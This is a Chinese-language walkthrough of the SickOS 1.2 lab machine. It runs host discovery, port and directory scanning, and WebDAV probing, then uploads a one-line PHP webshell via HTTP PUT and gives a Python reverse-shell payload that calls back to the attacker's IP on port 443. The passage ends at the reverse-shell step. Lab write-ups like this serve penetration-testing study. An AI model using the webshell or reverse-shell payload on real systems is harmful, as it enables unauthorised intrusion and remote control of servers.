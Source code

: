 # SickOS 1.2

首先我们使用arp-scan -l 发现目标主机。

<pre><code>┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f5:d6:36, IPv4: 192.168.5.134
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.5.1     00:50:56:c0:00:08       VMware, Inc.
192.168.5.2     00:50:56:f6:37:b9       VMware, Inc.
192.168.5.131   00:0c:29:1f:27:fc       VMware, Inc.
<a data-footnote-ref href="#user-content-fn-1">192.168.5.136</a>   00:0c:29:d6:78:03       VMware, Inc.
192.168.5.254   00:50:56:e6:f6:66       VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.946 seconds (131.55 hosts/sec). 5 responded                                                                                       
</code></pre>

然后nmap查看一下目标的开放端口

```
┌──(root㉿kali)-[~]
└─# nmap  -sV -sS 192.168.5.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:16 EST
Nmap scan report for 192.168.5.136
Host is up (0.00042s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 00:0C:29:D6:78:03 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.33 seconds
```

80端口似乎是个web页面，访问一下

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

没有什么有用的信息，最后一行显示这里什么都没有。我们尝试找下是否存在隐藏目录

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.5.136/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.136/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/test                 (Status: 301) [Size: 0] [--> http://192.168.5.136/test/]
/~sys~                (Status: 403) [Size: 345]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

这里得到了一个/test的目录

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

我们使用nikto扫描一下，发现这个地址支持OPTIONS, GET, HEAD, POST的请求方法

```
┌──(root㉿kali)-[~]
└─# nikto -host http://192.168.5.136/  
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.136
+ Target Hostname:    192.168.5.136
+ Target Port:        80
+ Start Time:         2023-12-11 20:55:13 (GMT-5)
---------------------------------------------------------------------------
+ Server: lighttpd/1.4.28
+ /: Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
```

我们尝试使用curl看看/test/这个目录支持的方法

<pre><code>┌──(root㉿kali)-[~]
└─# curl -v -X OPTIONS http://192.168.5.136/test/ 
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> 
&#x3C; HTTP/1.1 200 OK
&#x3C; DAV: 1,2
&#x3C; MS-Author-Via: DAV
&#x3C; Allow: PROPFIND, DELETE, MKCOL,<a data-footnote-ref href="#user-content-fn-2"> PUT</a>, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
&#x3C; Allow: OPTIONS, GET, HEAD, POST
&#x3C; Content-Length: 0
&#x3C; Date: Tue, 12 Dec 2023 02:05:41 GMT
&#x3C; Server: lighttpd/1.4.28
&#x3C; 
* Connection #0 to host 192.168.5.136 left intact 
</code></pre>

可以看到支持PUT方法，OK那我们可以先在本地创建一个webshell文件

```
┌──(root㉿kali)-[~/Desktop/test]
└─#  echo '<?php passthru($_GET["cmd"]) ?>' > shell.php
```

将创建好的文件使用PUT方法上传到/test/目录

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl -v -X PUT http://192.168.5.136/test/ -T shell.php
Note: Unnecessary use of -X or --request, PUT is already inferred.
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> PUT /test/shell.php HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> Content-Length: 32
> 
* We are completely uploaded and fine
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 12 Dec 2023 02:17:33 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.5.136 left intact
```

我们访问一下/test/这个目录，可以看到文件上传成功

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

curl执行一下命令

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl -v "http://192.168.5.136/test/shell.php?cmd=id;whoami;ls+-l" 
*   Trying 192.168.5.136:80...
* Connected to 192.168.5.136 (192.168.5.136) port 80
> GET /test/shell.php?cmd=id;whoami;ls+-l HTTP/1.1
> Host: 192.168.5.136
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: PHP/5.3.10-1ubuntu3.21
< Content-type: text/html
< Transfer-Encoding: chunked
< Date: Tue, 12 Dec 2023 02:21:21 GMT
< Server: lighttpd/1.4.28
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
total 4
-rw-r--r-- 1 www-data www-data 32 Dec 11 18:17 shell.php
* Connection #0 to host 192.168.5.136 left intact
```

在反弹shell的时候它似乎有端口限制，443端口可以反弹shell，我们这里用python的payload

```
http://192.168.5.136/test/shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.5.134%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27
```

{% embed url="https://www.revshells.com/" %}

[^1]: 

[^2]: 
